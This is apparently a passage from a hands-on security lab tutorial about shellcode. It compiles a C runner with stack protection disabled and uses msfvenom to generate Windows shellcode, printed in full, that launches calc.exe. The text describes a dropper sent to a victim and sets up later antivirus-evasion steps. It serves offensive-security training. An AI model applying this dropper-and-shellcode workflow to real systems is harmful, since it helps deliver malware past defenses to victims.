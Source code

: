 Then, we compile and execute it as follows,

- **Compiler our C program**

```shell-session
user@AttackBox$ gcc -g -Wall -z execstack thm.c -o thmx
user@AttackBox$ ./thmx
THM,Rocks!
        
```

Nice! it works. Note that we compile the C program by disabling the  NX protection, which may prevent us from executing the code correctly in the data segment or stack.

Understanding shellcodes and how they are created is essential  for the following tasks, especially when dealing with encrypting and  encoding the shellcode.

#  Generate Shellcode                            

In this task, we  continue working with shellcode and demonstrate how to generate and  execute shellcode using public tools such as the Metasploit framework.

Generate shellcode using Public Tools

Shellcode can be generated for a specific format with a particular  programming language. This depends on you. For example, if your dropper, which is the main exe file, contains the shellcode that will be sent to a victim, and is written in C, then we need to generate a shellcode  format that works in C.

The advantage of generating shellcode via public tools is that  we don't need to craft a custom shellcode from scratch, and we don't  even need to be an expert in assembly language. Most public C2 frameworks provide their own shellcode generator compatible with the C2 platform. Of course, this is so convenient for us, but the drawback is  that most, or we can say all, generated shellcodes are well-known to AV  vendors and can be easily detected. 

We will use Msfvenom on the AttackBox to generate a shellcode that executes Windows files. We will be creating a shellcode that runs the `calc.exe` application.

- **Generate Shellcode to Execute calc.exe**

```shell-session
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
        
```
